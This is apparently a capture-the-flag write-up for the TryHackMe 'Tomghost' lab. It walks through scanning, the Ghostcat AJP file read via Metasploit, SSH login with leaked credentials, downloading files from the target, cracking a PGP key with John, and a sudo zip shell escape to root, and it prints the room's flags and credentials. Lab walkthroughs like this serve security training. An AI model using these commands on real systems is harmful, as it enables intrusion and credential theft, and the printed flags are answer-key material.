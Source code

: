 # Enumeration

## Nmap

```jsx
PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQvC8xe2qKLoPG3vaJagEW2eW4juBu9nJvn53nRjyw7y/0GEWIxE1KqcPXZiL+RKfkKA7RJNTXN2W9kCG8i6JdVWs2x9wD28UtwYxcyo6M9dQ7i2mXlJpTHtSncOoufSA45eqWT4GY+iEaBekWhnxWM+TrFOMNS5bpmUXrjuBR2JtN9a9cqHQ2zGdSlN+jLYi2Z5C7IVqxYb9yw5RBV5+bX7J4dvHNIs3otGDeGJ8oXVhd+aELUN8/C2p5bVqpGk04KI2gGEyU611v3eOzoP6obem9vsk7Kkgsw7eRNt1+CBrwWldPr8hy6nhA6Oi5qmJgK1x+fCmsfLSH3sz1z4Ln
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOscw5angd6i9vsr7MfCAugRPvtx/aLjNzjAvoFEkwKeO53N01Dn17eJxrbIWEj33sp8nzx1Lillg/XM+Lk69CQ=
|   256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqgzoXzgz5QIhEWm3+Mysrwk89YW2cd2Nmad+PrE4jw

53/tcp   open  tcpwrapped syn-ack ttl 61

8009/tcp open  ajp13      syn-ack ttl 61 Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS

8080/tcp open  http       syn-ack ttl 61 Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache Tomcat/9.0.30
```

- Check cve of 8009

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/tomghost]
└─$ searchsploit ajp
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
AjPortal2Php - 'PagePrefix' Remote File Inclusion                                                                                                         | php/webapps/3752.txt
Apache Tomcat - AJP 'Ghostcat File Read/Inclusion                                                                                                         | multiple/webapps/48143.py
Apache Tomcat - AJP 'Ghostcat' File Read/Inclusion (Metasploit)                                                                                           | multiple/webapps/49039.rb
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

- we found ajp metasploit

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/09d6585dc5beaffa64a86c075de65e482ff66145/Tomghost%20(THM)/Images/image%20(1).png)

- use msfconsole and search ajp
- use 0
- set up rhosts and exploit

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/09d6585dc5beaffa64a86c075de65e482ff66145/Tomghost%20(THM)/Images/image%20(2).png)

```jsx
skyfuck:8730281lkjlkjdqlksalks
```

## SSH (22)

- use the above credential and login via ssh

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/09d6585dc5beaffa64a86c075de65e482ff66145/Tomghost%20(THM)/Images/image%20(3).png)

```jsx
find / -type f -name user.txt 2> /dev/null
```

- use this cmd to find user.txt file

```jsx
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
skyfuck@ubuntu:~$ find / -type f -name user.txt 2> /dev/null
/home/merlin/user.txt
skyfuck@ubuntu:~$ cat /home/merlin/user.txt
THM{GhostCat_1s_so_cr4sy}
```

# Post Exploitation

```jsx
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
skyfuck@ubuntu:~$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 ...
```

- open webshell on skyfuck
- download from our kali

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/tomghost]
└─$ wget http://10.10.88.153:8000/tryhackme.asc
-----------------------------------------------
┌──(kali㉿kali)-[~/CTF/tryhackme/tomghost]
└─$ wget http://10.10.88.153:8000/credential.pgp
```

First, let’s convert the key into a hash with this command:

```jsx
gpg2john tryhackme.asc > hash.txt
```

Then, start cracking it with John.

```jsx
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/09d6585dc5beaffa64a86c075de65e482ff66145/Tomghost%20(THM)/Images/image%20(4).png)

```jsx
alexandru 
```

Now that I have the decrypted password, I can decrypt credential.pgp by using:

```jsx
gpg --import tryhackme.asc
gpg -d credential.pgp
```

- `-import` to import the key.
- `d` to decrypt the .pgp file.

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/tomghost]
└─$ gpg --import tryhackme.asc
gpg: /home/kali/.gnupg/trustdb.gpg: trustdb created
gpg: key 8F3DA3DEC6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/CTF/tryhackme/tomghost]
└─$ gpg -d credential.pgp
gpg: encrypted with elg1024 key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j 
```

- we login ssh with merlin

It seems we need to use `sudo /zip` to access higher privileges.

```jsx
find / -perm -u=s -type f 2>/dev/null
```

Look for files with the SUID bit, which allows us to run files with elevated privileges beyond the current user.

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/09d6585dc5beaffa64a86c075de65e482ff66145/Tomghost%20(THM)/Images/image%20(5).png)

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/09d6585dc5beaffa64a86c075de65e482ff66145/Tomghost%20(THM)/Images/image%20(6).png)

- we can find that in GTFOBins
- we will use that commands

```jsx
TF=$(mktemp -u)
sudo /usr/bin/zip $TF /etc/hosts -T -TT 'sh #'
```

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/09d6585dc5beaffa64a86c075de65e482ff66145/Tomghost%20(THM)/Images/image%20(7).png)

Finally, we got the root.

```jsx
# cd /root
# ls
root.txt  ufw
# cat root.txt  
THM{Z1P_1S_FAKE}
```
